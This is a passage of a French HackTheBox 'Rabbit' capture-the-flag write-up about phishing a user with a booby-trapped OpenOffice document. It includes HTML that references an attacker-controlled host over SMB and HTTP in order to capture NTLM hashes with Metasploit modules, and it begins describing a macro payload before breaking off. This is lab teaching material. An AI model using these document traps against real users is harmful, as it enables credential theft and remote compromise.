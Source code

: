 APT 101
-------

Une fois connecté sur le webmail (par exemple avec *Ariel*) on voit que quelqu'un attend de recevoir son rapport *TPS* (kezako ? aucune importance).  

![HackTheBox Rabbit TPS report email](/assets/img/htb/rabbit_tps_reports_mail.jpg)

Il y a aussi deux emails, l'un pour indiquer que l'entreprise est passée à *Open Office*, l'autre pour indiquer la sécurisation des systèmes avec Windows Defender et le passage de Powershell en mode *Constrained Language* (voir [ici](https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/)).  

Les indices sont donc assez explicites et on va devoir envoyer un document ODT piégé à l'un des utilisateurs afin d'obtenir un shell.  

La première chose que j'ai essayé c'est l'inclusion de référence à des documents distants dans le document. C'est la même technique qui peut servir [à désanonymiser des utilisateurs de Tor](http://devloop.users.sourceforge.net/index.php?article131/les-questions-cons-du-hacking-comment-desanonymiser-un-utilisateur-de-tor).  

Pour cela on crée d'abord un fichier HTML :  

```plain
<html>
<body>
<img src="file://///10.10.15.90/share/img.png" />
<img src="http://10.10.15.90/nawak/img.png" />
</body>
</html>
```

que l'on intègre ensuite dans un document ODT (LibreOffice/OpenOffice Writer) via *Insert > Text from file* (visiblement ça a changé et oui c'est pas parlant du tout...)  

On aura préalablement lancé deux modules *Metasploit* à savoir *auxiliary/server/capture/smb* et *auxiliary/server/capture/http\_ntlm*.  

On attend un peu... et force est de constater que rien ne s'est passé :p   

On passe alors à l'option Macros : on crée un nouveau document ODT puis on va sur *Tools > Macros > Edit Macros* :  

Il faut ensuite :  

1. Aller sur l'icône Modules
2. Aller sur l'entrée *Standard* sous le nom de notre document
3. Créer un nouveau module
